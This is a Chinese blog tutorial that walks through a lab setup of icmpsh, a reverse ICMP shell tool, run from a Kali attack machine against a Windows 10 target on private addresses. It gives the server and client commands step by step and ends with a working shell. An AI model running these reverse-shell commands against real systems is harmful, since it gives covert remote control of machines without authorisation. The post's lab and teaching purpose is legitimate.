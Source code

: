 ```yaml
---
title: 【隧道代理】icmpsh工具的使用
date: 2025-09-10
categories:
  - 内网攻防
image: images/59.webp
---
```

# icmpsh工具
```
icmpsh是⼀个简单的反向ICMP shell⼯具。与其他类似的开源⼯具相⽐，主要优势在于它不需要管理权限即可在⽬标机器上运⾏。 
客户端只能在Windows机器运⾏，服务端可以在任何平台上运⾏。
```
## 下载地址
```
https://github.com/bdamele/icmpsh
```
## 本地实验环境
**kali攻击机： 192.168.197.129**
**win10靶机：192.168.197.138**
## 服务端
1.关闭icmp回复,如果要开启icmp回复，该值设置为0  因为icmpsh工具要代替系统本身的icmp应答程序，所以需要提前关闭本地系统的icmp应答，否则Shell的运行会不稳定
```
关闭icmp回复
sysctl -w net.ipv4.icmp_echo_ignore_all=1
开启icmp回复
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250910155900.png)
2.安装get-pip.py
```
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250910161525.png)
3.安装impacket
```
这里我是下载完成后，上传到我的kali里进行安装
https://github.com/fortra/impacket/releases/tag/impacket_0_11_0
python2 setup.py install
或者：
# 安装兼容 Python 2 的 Impacket 版本（0.9.22 及以下）
pip2 install impacket==0.9.22
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250910162903.png)
运行，第⼀个IP是VPS的eth0网卡IP，第二个IP是目标机器出口的公网IP
```
python2 icmpsh_m.py 192.168.197.129 192.168.197.138
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250910162813.png)
## 客户端
```
icmpsh.exe -t 192.168.197.129 -d 500 -b 30 -s 128

-t 主机ip地址以发送ping请求。这个选项是强制性的！
-r 发送⼀个包含字符串“Test1234”的测试icmp请求，然后退出。
-d 毫秒请求之间的延迟（毫秒）
-o 毫秒响应超时（毫秒）。如果没有及时收到回复，从机将增加空⽩计数器。如果该计数器达到某个极限，从机将退出。
如果收到响应，计数器将设置回0。
-b 空⽩数量限制（退出前未答复的icmp请求）
-s 字节最⼤数据缓冲区⼤⼩（字节）
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250910162737.png)
**成功shell**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250910162753.png)

